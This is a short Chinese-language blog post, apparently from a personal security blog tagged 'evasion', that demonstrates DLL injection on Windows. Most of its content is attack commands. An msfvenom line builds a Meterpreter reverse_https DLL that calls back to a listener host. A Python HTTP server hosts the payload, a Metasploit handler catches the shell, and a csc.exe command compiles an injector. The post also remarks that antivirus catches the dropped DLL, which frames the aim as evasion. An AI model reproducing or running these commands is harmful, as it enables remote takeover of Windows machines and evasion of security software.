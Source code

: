 ```yaml
---
title: dll注入的演示
categories:
- evasion
tags:
- evasion
---
```


## 前景提要
[whale的DLLHijack本地提权教程](https://www.acfun.cn/v/ac12864807)

[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 本期内容
dll注入的演示

1.exe
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/1.PNG)

2.exe

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/2.PNG)

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f dll -o whale.dll

python -m SimpleHTTPServer 80

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

## 小实验
“C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe” /unsafe /platform:x64 2.cs

缺点：dll落盘，会被杀软查杀

## 参考资料
https://github.com/tyranid/DotNetToJScript

